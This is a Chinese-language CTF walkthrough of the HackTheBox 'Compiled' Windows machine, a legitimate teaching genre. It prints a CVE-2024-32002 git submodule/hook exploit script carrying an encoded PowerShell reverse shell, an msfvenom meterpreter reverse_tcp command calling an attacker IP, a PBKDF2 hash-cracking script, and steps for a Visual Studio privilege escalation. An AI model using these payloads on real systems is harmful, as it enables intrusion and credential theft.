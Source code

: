 ```yaml
---
title: "HTB-Compiled"
date: 2024-08-31
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Rated Difficulty | Medium |

## Port Scan

```
#linux
nmap -A -Pn 10.10.11.26
```

![](./images/image-119.png)

![](./images/image-120.png)

扫描出来3000和5000端口。

![](./images/image-121.png)

3000端口是一个类似于git的服务，具体是由Gitea驱动的。包含了注册、登录、创建仓库以及拉取代码等等功能。

![](./images/image-122.png)

5000端口是一个类似于编译功能，可以传入仓库地址。

## Git Rce

在3000端口上的richard的Calculator仓库中，发现了git的版本是2.45.0

![](./images/image-123.png)

结合**5000**端口上的clone功能，搜索得到漏洞编号为：**CVE-2024-32002** 的git rce漏洞。

![](./images/image-124.png)

**相关文章：**[Exploiting CVE-2024-32002: RCE via git clone | Amal Murali](https://amalmurali.me/posts/git-rce/)

文章中的示例脚本中是打开一个计算器，那么在这里可以把他改为反弹shell。

![](./images/image-125.png)

根据文章中的描述，需要创建两个空仓库。

![](./images/image-128.png)

```
git config --global protocol.file.allow always
git config --global core.symlinks true
git config --global init.defaultBranch main
rm -rf nothing
rm -rf toSeeHere
git clone http://compiled.htb:3000/hyh/repo1.git
 cd repo1
mkdir -p y/hooks
cat >y/hooks/post-checkout <<EOF
#!bin/sh.exe
powershell -e JABjAGw...
EOF
chmod +x y/hooks/post-checkout
git add y/hooks/post-checkout
git commit -m "post-checkout"
git push
cd ..
git clone http://compiled.htb:3000/hyh/repo2.git
cd repo2
git submodule add --name x/y "http://compiled.htb:3000/hyh/repo1.git" A/modules/x
git commit -m "add-submodule"
printf ".git" >dotgit.txt
git hash-object -w --stdin <dotgit.txt >dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info
git update-index --index-info <index.info
git commit -m "add-symlink"
git push
```

![](./images/image-129.png)

填充到powershell那里来反弹shell。

然后本地运行这个sh脚本

![](./images/image-130.png)

这边准备提交repo2的代码,并且监听4321端口

![](./images/image-131.png)

成功反弹到shell

![](./images/image-132.png)

查看电脑的用户,发现一个Emily用户

![](./images/image-133.png)

在C盘Program Files\\Gitea的data目录下发现一个gitea.db数据文件

![](./images/image-134.png)

这里无法直接下载,要在kali上用metasploit生成木马进行控制.

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.24 lport=9876 -f exe -o shell.exe
```

![](./images/image-136.png)

然后windows去curl下载，成功触发。

![](./images/image-137.png)

然后下载db文件

![](./images/image-138.png)

直接打开查看

![](./images/image-141.png)

可以发现密码是经过哈希的，加密方式是pbkdf2，后面的列里还有盐值

这里可以写一个脚本，在网上也能找到

```
import hashlib
import binascii
def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value
def find_matching_password(dictionary_file, target_hash, salt, iterations=50000, dklen=50):
    target_hash_bytes = binascii.unhexlify(target_hash)
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt, iterations, dklen)
            if hash_value == target_hash_bytes:
                print(f"Found password: {password}")
                return password
    print("Password not found.")
    return None
salt = binascii.unhexlify('227d873cca89103cd83a976bdac52486')
target_hash = '97907280dc24fe517c43475bd218bfad56c25d4d11037d8b6da440efd4d691adfead40330b2aa6aaf1f33621d0d73228fc16'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```


因为当前权限我们无法直接进入Emily的文件夹，所以接下来要使用一个Evil-Winrm

![](./images/image-143.png)

## Evil-Winrm

evil-winrm是一个可用于黑客攻击/渗透测试的Windows远程管理(WinRM) Shell。

![](./images/image-142.png)

![](./images/image-144.png)

在桌面发现user的flag，并且发现在电脑中有Visual Studio 2019

![](./images/image-145.png)

Google一下，记得用英文

## CVE-2024-20656

![](./images/image-146.png)

git clone下来，路径改为一致：[Wh04m1001/CVE-2024-20656 (github.com)](https://github.com/Wh04m1001/CVE-2024-20656)

![](./images/image-147.png)

![](./images/image-148.png)

这里187行CopyFile的第一个路径要作为靶机tmp中的第二个shell恶意文件。这个和之前的msfvenom是一样的生成方式。属性使用2019的工具集。

![](./images/image-149.png)

然后将VS改为Realase模式生成exe，并且上传到靶机。

还要上传一个RunaCs.exe用来加载木马。

[antonioCoco/RunasCs： RunasCs - Csharp 和 Windows 的开放版本内置runas.exe (github.com)](https://github.com/antonioCoco/RunasCs)

![](./images/image-151.png)

Msf同时要进行监听。

![](./images/image-150.png)

之后meterpreter就能收到shell，并且权限是Administrator，root的flag在Admin的桌面
